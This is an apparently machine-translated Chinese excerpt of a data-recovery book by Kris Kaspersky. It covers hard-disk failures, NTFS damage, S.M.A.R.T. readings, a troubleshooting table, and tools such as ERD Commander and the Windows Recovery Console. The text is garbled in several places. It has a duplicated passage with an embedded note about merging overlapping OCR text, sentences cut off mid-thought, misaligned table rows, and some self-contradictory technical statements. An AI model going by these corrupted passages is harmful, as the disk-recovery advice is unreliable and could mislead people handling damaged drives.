# 数据恢复：技巧与解决方案：Windows, Linux 和 BSD

KRIS KASPERSKY（卡斯斯基）



Kris Kaspersky


作者：Kris Kaspersky

书籍编辑：Julie Laing

- 磁盘编辑器 27
- NTFS 中的删除文件 165
- Zip 磁盘软 ............................................................................ 250
- 磁带 ......................................................................... 252
- 闪存内存 ............................................................................ 253
- StarForce 是否像木马一样工作？ ........................................ 282
- StarForce 是否已被破解？ ................................... 283
- CD 刻录的秘密 ................................................................................ 294
- 问题 ................................................................................................ 299

# 前言

数据销毁是电脑上可能发生的最糟糕的事情。这可能是由不同的问题引起的。操作系统崩溃、病毒、无意删除数据、磁盘格式化、媒介缺陷以及许多其他事件可能导致这些糟糕的结果。幸运的是，在许多情况下数据是可以恢复的，只要你懂得如何做。

本书是一本数据恢复的逐步指南，包含了许多实用技巧和大量的参考信息。书中涵盖了硬盘以及 Windows 和 Linux 文件系统（NTFS, ext2fs, ext3fs, ISO9660 和 UFS）。

本书主要面向数据恢复领域的专业人士以及系统管理员。然而，这并不意味着用户无法在这里发现任何有趣的内容。对于用户，我们提供了许多现用的解决方案，即使是初学者或孩子也能轻松应用。

在编写本书时，我的目标是实现三个目标：首先，提供关于流行文件系统结构和工作原理的全面参考信息；其次，演示使用专用工具进行轻微损坏自动恢复的技术；最后，解释手动恢复技术，这在自动工具失效的数据完全销毁的情况下是必不可少的。

本书基于我的经验以及 ACE Lab 专家的经验（数据恢复领域的全球领先者之一）。书中描述的技术尚未在文献中发表，目前仅供少数专家群体使用。书中出版的内容面向两类读者：能够直觉地操作自动数据恢复工具界面的高级用户，以及经常需要恢复损坏数据的真正的专业人士。

第一章：数据恢复简介

第二章：核心工具

第三章：如何选择硬盘

第四章：硬盘与维修



# 第一章：数据恢复简介



Windows NT 系列现代操作系统以及实现了自监控分析报告技术（S.M.A.R.T.）的硬盘支持多种防止无意数据损坏的保护机制。然而，这些机制通常被证明无法恢复受损的数据。理解为什么会发生这种情况的关键在于“无意”这个词。通常情况下，用户是可以为数据破坏承担责任的。他们将电脑变成病毒滋生器，心大意地安装“无名”软件，并操作自己并不理解的设置。换句话说，他们自作自得。

可以恢复被毁的数据吗？可以，毫无疑问！开个玩笑，即使是灾难性的破坏也是部分或完全可逆的。这只是时间与资质（如果用户资质不够，就是钱）的问题。大多数普通用户只能克服不涉及服务结构的轻微损坏。事实上，这种损坏发生最频繁。因此，这里描述的数据恢复技术至少在开始阶段足够了。

然而，不要将理论知识与实践技能混淆。我强烈建议你通过实验不包含任何价值的硬盘——即任何你不会觉得损失可惜的数据——来开始积累实践的数据恢复技能。千万不要通过实验珍贵且独特的数据来开始实操。像工兵一样，你没有权利在这些数据上出错。数据恢复中没有严格定义的规则，正确的策略也无法预先知。你有很多方法可以选择；因此，只有其中一种是正确的，其他的将导致致命的后果。数据恢复类似于在完全黑暗中迈向目标。它要求你将理论知识、实践经验和直觉相结合。你可以掌握手动技巧，但无法购买天赋；你要么拥有，要么没有。现代计算机科学的主要目标是将精通降低到手工艺的水平——换句话说，将任何直觉操作简化为任何人都可以执行的可预测的动作序列。近年来，计算机科学和技术取得了长足进步。缺乏经验的用户获得了强大的数据恢复工具；然而，大多数用户并不知道如何正确地使用这些工具。因此，大多数缺乏经验的用户获得了糟糕的结果，并毁掉了自己的数据，而不是恢复了信息。为了防止你遭受同样的后果，我将从头开始。

## 清理碎片

如果你的硬盘发出异响，操作系统无法启动，或者一个或多个逻辑磁盘的内容变成了一团糟糟，你能做的最好的事情就是立即关闭电脑并将其交给真正的专家。如果你没有经验并尝试自己修复受损的数据，你将使数据暴露在一种无法接受的巨大风险中。如果你尝试使用各种自动化实用程序进行恢复，盲目依赖它们的智能行为，而不是手动恢复数据，情况尤为如此。

另一方面，不熟练的人员装成专业人士使用同样的工具；因此，让他们折磨你的硬盘是明智的，甚至更糟。在这种情况下，你不仅会失去珍贵的数据，还会金钱。真正的数据恢复专家必须拥有洁净室、用于更换磁头的高精度设备，并能够熟练回答“什么是 MFT 以及它与 `$MFT` 的区别？”等问题。

如果你所在的地区没有专业的数据恢复服务，你可以联系远程数据恢复服务。有两种远程数据恢复技术。在第一情况下，所选公司的专家会给你发一封带有附件的电子邮件。这包含一个特殊的工具，形成启动软盘，包含一个自动终端服务（一种 telnet）。从此软盘启动电脑后，你可以通过调制调器连接到维修服务并……

……从此软盘启动电脑后，你可以通过调制调器连接到维修服务并……这种方法主要的缺点是让你必须在磁盘上等待。在这种情况下，你不仅会失去珍贵的数据，还会金钱。（注：OCR 文本在这里有一些重复/重叠，我将根据语义进行合并）。

这种方法主要的缺点是让你必须在磁盘上等待。在这种情况下，你不仅会失去珍贵的数据，还会金钱。……（继续文本的独特内容）。

……破坏的可能性微乎其微：取决于……的质量约为 0.1%。

## 物理损坏

如果电子元件故障，控制器通常无法修复。通常情况下，恢复专家会购买一个完全相同的硬盘并更换整个控制器板。在这种情况下，必须考虑到某些制造商会将校准数据加载到只读存储（ROM）芯片中。为了成功维修，需要仔细地将此芯片从故障控制器上焊下，并焊到替换板上。如果没有这样做，当硬盘首次在安装它的电脑上启动时，数据将是不可读或被不可逆转地破坏。（关于此主题的更多细节将在第四章提供。）

在任何情况下都不应打开密封外壳！即使是一粒掉落在读写头下的灰尘也会损坏硬盘（图 1.3）。至于磁头，一种荒谬但流行的观点在普通用户中很普遍。他们认为磁头是被“密封”的，而要“解开密封”，有必要精确地冲击硬盘或绕轴剧烈旋转。当硬盘开始旋转时，粘住的磁头会连盘片一起撕出。轴承会卡死得连老虎钳也无能。在水平面上的任何旋转都没有帮助。

尽管如此，情况很少导致完全故障。通常情况下，损坏局限于坏道。如果你检测到此类坏块，永远不要尝试运行诊断程序，包括从硬盘制造商处获得的程序。由于某种未知原因，所有此类实用程序在遇到坏道后，都会折磨它直到最终胜利，不可避免地将缺陷扩大到其他扇区并深层磁层。更糟糕的是，这可能会损坏磁头，导致受损区域出现锯齿状线条（图 1.4 和 1.5）。记住，药效往往比受损区域本身更严重。



图 1.1. 损坏的硬盘控制器——控制硬盘主轴电机的芯片已烧毁（经 http://www.hdd-info.ru 网站所有者的慷慨发布）



图 1.2. 另一个失效的硬盘控制器（经 http://www.hdd-info.ru 网站所有者的慷慨发布）



图 1.3. 磁盘盘片镜面上的指纹是在家庭条件下打开密封外壳留下的后果（经 http://www.hdd-info.ru 网站所有者的慷慨发布）




图 1.4. 被 Tiramisu 工具损坏的硬盘

# 第 1 章：数据恢复简介



**图 1.5.** 另一个不可逆损坏的硬盘（经 http://www.hdd-info.ru 网站所有者的慷慨发布）

每个硬盘都有一个特殊的寄存器，此外，它指定了读取尝试次数，如果扇区无法读取，建议将其重置为零（不要重复读取）。对于单独设置，请查阅从制造商下载的文档。长时间读取会返回整个扇区，包括用户数据和校验和（在计算机系统界面或 SCSI 磁盘上，即使修复代码也会返回）。不同型号的硬盘有自己的功能实现。遗憾的是，这些功能并不总是有记录的，而且需要从互联网收集信息。作为一种变体，可以进行拆解；然而，这种方法需要高水平。

通常，扇区并没有完全销毁。按照规则，只有大约 10-20 字节的修复代码损坏了。这比什么好。

## 逻辑损坏

所有现有文件系统，如 `FAT16`/`FAT32` 或 `HPFS` 都无法与 `NTFS` 相比；因此，我们将关注 `NTFS`。这是一个非常可靠的文件系统；然而，绝对保护是不可能的。灾难性事件随时都会发生。

相反，`NTFS` 没有记录，这意味着当你恢复内部数据结构时，将依赖于独立来源，例如用于 Linux 的 `NTFS` 驱动程序。然而，这些方法与较新的操作系统并不兼容。遗憾的是，替代方案并不。

要恢复包含一个或多个 `NTFS` 分区的硬盘，将其安装在 Windows NT/2000/XP 电脑的“从盘”上，所有必要软件已安装。此外，你需要控制台。要启动控制台，插入光盘并启动 Windows 安装程序。当系统提示你选择安装新的系统副本还是恢复 Windows 安装时，按 `<R>` 键选择控制台。

直接从控制台可以执行 `chkdsk logical_disk_name` 命令。`/p` 命令行选项指示 `ChDisk` 工具对所有修改进行更彻底的检查，而 `/r` 命令行选项搜索并恢复扇区。请注意，不建议使用 `ChDSk`；然而，如果你没有其他主意，可以使用。

如果没有逻辑磁盘可用，根目录未显示或包含某些内容，最坏的情况发生了——描述磁盘位置的文件表已销毁。这是一个罕见事件。然而，如果你没有其他主意，可以使用。


图 1.4. 被 Tiramisu 工具损坏的硬盘

## 第一章：数据恢复绪览

在安装操作系统时，切勿尝试以后对其进行分区，因为丢失其存储的所有数据的风险是极高的。

请仔细跟踪 `S.M.A.R.T.` 系统提供的读数。有很多工具可以读取这些信息。`AIDA`（图 1.7）就是此类工具的良好示例。重映射扇区计数（`Reallocated Sector Count`）急剧增长是灾难临近的征象，强烈建议你尽快更换磁盘。应该关注的是*梯度*值。原始读取错误率（`Raw Read Error Rate`）的增长也是磁盘严重问题的迹象。如果发生这种情况，你应该尽快从此类磁盘中拷贝所有宝贵数据并尽快将其丢弃。寻道错误率（`Seek Error Rate`）和重试计数（`Retry Count`）的增加表明硬盘机械结构的运行中存在日益增长的不协调，这通常意味着磁盘故障。相反，启动时间（`Spin Up Time`）的增加是由于某些硬盘模型特定结构特征引起的正常现象；没有理由等待该参数达到阈值。



图 1.7.通过 `AIDA` 工具读取的 `S.M.A.R.T.` 读数

与 Ultra ATA CRC 错误率（`Ultra ATA CRC Error Rate`）相关的数据传输错误极具欺骗性。如果该参数超出冗余校验码确保的纠错能力范围，文件系统将崩溃。如果该参数的值高于正常水平，请确保接口电线没有折弯，并在必要时缩短它。

仔细追踪温度并避免磁盘过热。通常情况下，磁盘规格中会提供允许的最大温度。大多数现代硬盘通常可以承受 50°C–60°C 的环境温度（请勿将此温度与内置热传感器的读数混淆）。如果没有超过此温度限制，则不需要额外的冷却。然而，如果超过了此温度，请确保你已经提供了额外的冷却。

不要对处理器、外围部件接口（`PCI`）总线和 `RAM` 进行超频。这样做可能会导致内部文件系统结构的不可逆损坏。数据恢复的费用将抵消超频带来的所有经济效益。你应该知道，对于具有 8 MB 缓存内存的硬盘，直到 Windows XP 之前的所有版本的 Windows 操作系统表现都不良好，经常会导致严重的磁盘损坏。这是因为在系统关闭过程中，Windows 在刷新缓存之前就关闭了硬盘。这个问题可以通过迁移到 Windows XP 或安装适当的服务程序包来解决。通常，不建议购买带有大缓存的硬盘。据传，它们的可靠性不足，并以许多未解决的工程问题为特征。

如果你在乎你的数据，请使用内置的文件加密功能，并且永远不要将你的基本卷“升级”为动态卷。所有这些功能都会在操作系统注册表中存储重要信息。系统崩溃后，这些功能将无法使用。永远不要运行任何你不信任的程序；至少要以管理员权限运行它们！最佳实践是针对特定任务使用最小权限级别，并仅在必要时以管理员身份登录。所有你未来不打算修改的文件都必须防止被修改。从所有登录系统的用户中移除这些文件的修改属性。

如果你遵循了本节中提供的所有建议，你可以大大减少数据发生不可逆丢失的风险，并在最坏情况发生时显著简化数据恢复程序。

### 安全漏洞

通常观点是，Windows NT 系列的操作系统能够可靠地保护数据免受破坏。微软表示，其操作系统阻止了对计算机硬件的直接访问，并提供了尚未有人绕过的自由裁量访问能力（至少使用通用技术时是如此）。

这种观点是错误的。你有 `CD-RW` 驱动器吗？你使用光盘刻录机吗？你是否在使用高级 SCSI 编程接口（`ASPI`）？你是否在使用基于 IDE 设备的 `ASPI` 驱动程序？你是否知道 `ASPI` 允许任何应用程序（无论其权限级别如何）在某些情况下允许所有扇区被擦除？即使你删除了，SCSI 透传接口（`SPTI`）仍然存在。`SPTI` 是操作系统的不可组成部分，允许 `ASPI` 所的操作。

### 磁盘缺陷及其消除方法

常见的磁盘缺陷及其消除方法在表 1.1 中简要概述。

### 表 1.1 磁盘诊断与故障排除

| 症状 | 诊断 | 消除 |
| :--- | :--- | :--- |
| 操作系统无法启动；BIOS 显示无磁盘或缺少系统，或启动过程被错误消息中断等类型的问题。 | 从软盘启动时，逻辑磁盘可见（`C:` 命令返回错误）。 | 启动顺序或分区表已损坏。根据第 5 章介绍的方法恢复损坏的 `MBR`。 |
| | 逻辑磁盘可见且健康（`C:` 和 `dir` 命令可运行）。 | 引导加载程序和/或 `MBR` 已损坏。 | 恢复控制台并执行 `FIXMBR` 和 `FIXBOOT` 命令。 |


## 症状与处理建议

| | 逻辑磁盘可见，但 `C:` 命令导致错误。 | 引导扇区或 `MFT` 已损坏。 | 尝试根据第 5 章介绍的方法恢复引导扇区。如果无效，启动 `CrashUndo2000`。 |
| 操作系统开始启动；但一段时间后会冻结。 | `dir C:` 命令正常执行；`Chkdsk` 未发现任何错误。 | 操作系统已损坏。通过将所有宝贵文件拷贝到其他介质创建备份副本，然后重新安装操作系统 |
| 在一个或两个子目录中，`dir` 命令输出垃圾或未显示所有文件。 | `MFT` 或其一个子结构已损坏。 | 启动 `CrashUndo2000`。 |
| | 部分文件不可读，且在尝试读取此类文件时磁盘发出擦擦声。 | 磁盘表面物理损坏。 | 启动 `EasyRecovery`。 |
| | 存储在磁盘上的某些文件包含其他文件的碎片。 | 磁盘上存在一些重叠簇。 | 启动 `Chkdsk`。 |
| | 磁盘空间在没有明显原因的情况下减少。 | 丢失了一些簇。 | 启动 `Chkdsk`。 |



## 数据恢复的基本原则

即使你拥有灵巧的手艺和敏锐的大脑，如果没有专业的工具集，在数据恢复这项艰巨的任务中是不可能成功的。理想情况下，你必须准备好独立开发所需的一切内容。数据恢复是一项艰苦且枯燥的工作，因此如果你需要恢复一个大硬盘（容量约为 80–120 GB），你就无法离开自动化。目前所有被称为“磁盘医生”的自动化工具，其主要缺点是缺乏内置语言，或者至少缺乏一套高级的宏命令系统。自然，在开始任何自动化操作之前，必须对状况有深层次的理解，而只有人类才能完成这项工作。在这方面，你绝不应该依赖计算机，因为计算机并不足够智能，无法成功完成此任务。只有人类才能可靠地区分有用数据和垃圾。

然而，重新发明轮子并非明智之举。你可能需要的一切可以在市面工具中找到。其中大多数并非免费软件，它们以商业形式发行；因此，你应该为此付费。遗憾的是，在实践中，最昂贵的仪器并不如预期。你可能没有丢失数据，反而浪费了金钱。我测试了一系列专门用于恢复丢失数据的软件。在本章中，我将介绍那些经受住了时间和熵的考验、值得信赖的软件。俗话说说，时间就是金钱。

位于基础主硬盘上的诊断和恢复工具仅适用于教育目的。对于现实世界的数据恢复，它们几乎一无用处。即使故障不足以阻止 Windows 启动，在多任务环境下尝试修复磁盘也可能产生不可预测的结果。因此，通过在你的磁盘上写入任何绕过文件系统驱动程序的内容，你都会让你的数据面临严重风险。假设你正在恢复一个被删除的文件，并同时更新 `MFT`（`NTFS` 的核心区域）。此时，系统正在创建或删除另一个文件，并访问同一个扇区。结果会怎样？你正在恢复的文件，可能甚至整个卷都会被毁掉。系统会锁定活动的可执行文件和数据文件，这导致即使你有备份副本，也无法恢复它们。删除病毒等操作也是如此。大多数病毒在感染系统后，会阻止杀毒软件的启动或通过高明手段隐藏自己的行迹，从而防止杀毒扫描器检测或删除它们。此外，如果 Windows 因为故障而无法启动，你将一无所有。

### 文件系统选择与迁移限制

`FAT16`/`FAT32` 优于 `NTFS` 的主要优势在于可以从系统盘启动。`MS-DOS 7.0` 支持长文件名，允许你从正在恢复的磁盘中复制操作系统标准文件驱动程序可以访问的所有文件。这种方法在 `NTFS` 上不起作用。尽管如此，你可以将待恢复磁盘作为从盘连接到一台运行可用的 `Windows NT`/`2000`/`XP` 系统的计算机上。要实现这个目标，你甚至不需要两台计算机。只需将另一块硬盘连接到你的计算机，并在上面安装全新的基于 `Windows NT` 的操作系统即可。在采用这种方法时，请记住所有与 `Windows NT 4.0` 或更早版本创建的独立磁盘阵列（`RAID`）软件相关的信息都包含在系统注册表中。因此，当磁盘移动到另一个系统时，这些信息将不可。`Windows 2000` 引入的动态磁盘将其属性存储在固定磁盘位置；因此，它们并不限于其“原生”系统。然而，对于加密文件来说，情况更糟。加密密钥深度嵌套在用户配置文件中，在另一个系统下检索文件将是不可能的。注意，如果你创建一个相同用户名和密码的用户，这个问题并不会得到解决，因为加密密钥是由操作系统随机生成的，因此无法重现。除了进行暴力攻击外，没有办法可以获取该密钥。

某些文件系统损坏会导致原始 `NTFS` 驱动程序冻结并导致系统崩溃，显示蓝屏（`BSOD`）。这导致了严重问题，因为当人们需要恢复磁盘时，必须启动某些恢复工具；而要启动这些工具，必须启动 Windows，这在此时是不可能的。要绕过这一点，你需要一个可启动环境。在这种情况下，你可以使用 `Windows` 预安装环境（`PE`）或基于 Linux 的现场工具。这允许你在操作系统未被内核锁定的情况下访问损坏的驱动器。


并挂载 `NTFS` 分区，即使内部文件结构被破坏且 `MFT` 受到严重损坏。驱动程序将扫描磁盘以找到所有在灾难中幸存的 `MFT` 文件记录。最重要的是，它还会显示已删除的文件并提示你进行恢复。写入磁盘的可能性仅存在于商业版本中。演示用版仅允许你将文件复制到外部介质，包括 `FAT` 格式的硬盘或软盘。遗憾的是，它不支持动态磁盘。此外，安装的工具集还包含一个用于创建和恢复磁盘映像的实用、一个擦除磁盘上所有数据的工具（如果你想将包含数据的硬盘退回给供应商，这非常用）、一个能够恢复分区表并备份现有分表的分区程序，以及一个针对 `NTFS` 的独立 `Unerase` 工具。

### ERD Commander

如果你无力购买另一块硬盘，且 `MS-DOS` 加载器的功能不能满足你的需求，可以使用 Russovich 的另一个工具——`ERD Commander`。该工具允许你启动一个精简版的 Windows——可以从五张磁盘启动，也可以从其他磁盘启动。目前，`ERD Commander` 仅以商业形式分发，尽管在互联网上仍然可以找到该工具早期的免费版本。但请注意，与最新的商业版本相比，它们的功能是有限的。例如，我测试了 `ERD Commander 2000`，感到既惊讶又失望。首先，它启动了一个带有多处理器内核的软盘（而我的系统是单处理器的）。结果是，从软盘启动时，Windows 无法找到恢复的内核并崩溃。我不得不手动更换内核。之后，又发现了其他的安装程序 Bug，我不得不工作到精疲力竭才让系统启动。安装程序准备的 `CD-ROM` 镜像也处于混乱状态。它是一个包含文件和 `sector.bin` 的文件夹，并不是每个光刻录工具都适合刻录它。我发现 `CDRTools` 和 `CDRWin` 都能完成这项任务。`Nero` 工具则失败了。尽管如此，`ERD Commander` 值得一试。通过它，你可以更改系统的最后一个管理员密码，编辑损坏的 Windows 安装的注册表，管理服务和驱动程序，恢复已删除的文件，复制和修改任何系统或用户文件（本地或通过网络），编辑分区，维护动态磁盘，比较损坏系统文件与可用系统文件，将系统回滚到可用状态等。遗憾的是，`ERD Commander` 没有提供直接恢复损坏磁盘的工具。它主要用于重振损坏的操作系统。尽管如此，

你可以在 `ERD Commander` 的环境中运行磁盘医生或任何其他 Windows 实用程序。但请注意，如果你计划这样使用它，购买额外硬盘的费用将比购买一份正版 `ERD Commander` 要便宜。

### Recovery Console

从 `Windows 2000` 开始，微软终于在系统中包含了一种能够从 `CD-ROM` 启动并支持 `NTFS` 的加载器。这个工具被称为恢复控制台（`Recovery Console`）。它是一个感知图形用户界面（`GUI`）存在的控制台，只能启动如 `chkdsk.exe` 和类似工具的控制台应用程序。要激活恢复控制台，从 `Windows 2000`/`XP` 分发光盘启动并假装你要重新安装系统。安装程序将启动。当它提示你时，按下键盘上的 `<R>` 键启动恢复控制台。然后你会被提示输入管理员密码。注意，如果你忘记了密码，或者系统注册表损坏，恢复控制台将无法启动。成功登录后，命令解释器将启动，理论上，它允许你将幸存的文件复制到另一块磁盘。但在实践中，默认只有 `Winnt` 文件夹可用，且不允许复制到可移动介质。太极了！你需要 `Winn` 要干什么？你的文档更重要。幸运的是，你可以通过解锁访问来消除此限制。为此，通过命令提示符执行 `SETAllowPaths = true` 和 `SETAllowRemovableMedia = true`，将 `AllowPaths` 和 `AllowRemovableMedia` 系统变量赋值为 `TRUE` 值。作为一种变体，你可以在编辑本地安全参数之前这样做。为此，在控制面板中选择管理工具，选择本地安全策略，找到“恢复控制台：允许将软盘复制到所有驱动器和所有文件夹”安全策略并启用它。此安全策略的目的对我来说有点不明。大多数用户并不知道恢复控制台的存在，但专业人士通常会对这些操作感到恼火。在恢复控制台环境中，你可以运行 `ChDSk`。（顺便说一句，它的价值值得怀疑，它往往由于导致额外的损坏而使情况变得糟糕。）此外，你可以创建和删除分区；覆盖 `MBR` 和引导扇；格式化逻辑驱动器；管理服务和驱动程序；复制、重命名或删除文件；更改文件属性（包括系统启动时锁定的属性）；以及执行其他管理操作。如果需要，你可以运行自己的应用程序，这些程序仅调用 `ntdll.dll` 库。开发这些应用程序的技术将在此处介绍，因为这个广泛的话题需要单独的章节。




图 2.1. Bart PE

